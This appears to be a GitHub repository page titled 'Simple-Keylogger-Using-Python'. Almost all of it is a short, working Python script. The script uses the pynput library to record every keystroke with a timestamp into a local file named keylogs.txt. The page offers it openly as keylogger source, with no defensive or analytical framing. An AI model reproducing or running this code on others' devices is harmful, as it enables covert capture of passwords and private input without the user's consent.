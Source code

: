 # Simple-Keylogger-Using-Python
# Trying to create a keyloger using python :
import pynput
from pynput.keyboard import Key, Listener
import logging
log_dir = ""

logging.basicConfig(filename=(log_dir + "keylogs.txt"), \
    level = logging.DEBUG, format= '%(asctime)s: %(message)s')
def on_press(key):
    logging.info(str(key))
with Listener(on_press=on_press) as listener:
    listener.join()
